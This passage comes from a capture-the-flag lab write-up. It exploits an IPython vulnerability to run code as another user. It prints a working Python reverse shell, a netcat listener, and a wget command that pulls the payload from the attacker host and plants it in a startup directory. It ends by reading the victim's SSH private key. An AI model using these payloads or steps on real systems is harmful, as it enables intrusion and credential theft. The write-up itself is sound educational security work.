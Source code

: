 After some googling about `ipython` I found a vulnerability where I can execute commands on behalf of another user, it can be found on [this](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x) github page.

So the steps are:

1. Craft a reverse shell python payload
2. Start a listener
3. Plant it in the directory where the user `dan_smith` will execute it
4. BINGO

So i started by making a reverse shell in `payload.py`:

```bash
#!/usr/bin/env python3

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.5",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

Started a Netcat listener:

```bash
└─$ sudo nc -lvnp 1337                       
[sudo] password for kali: 
listening on [any] 1337 ...
```

Then on the target machine, I navigated to `/opt/scripts_review`, and since the script is being executed periodically, I wanted to set everything up quickly before it resets, because when it does, all directories I made will be removed, I prepared and execute the following command:

```bash
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default && mkdir -m 777 profile_default/startup && cd profile_default/startup && wget http://10.10.16.5/payload.py
```

That's it! got the reverse shell and the user flag! also got the rsa ID for an SSH connection for later work.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 1337                                                             
[sudo] password for kali: 
listening on [any] 1337 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.172] 48658
dan_smith@shared:/opt/scripts_review$ whoami
whoami
dan_smith
dan_smith@shared:/opt/scripts_review$ cat ~/.ssh/id_rsa
cat ~/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvWFkzEQw9usImnZ7ZAzefm34r+54C9vbjymNl4pwxNJPaNSHbdWO
...
```
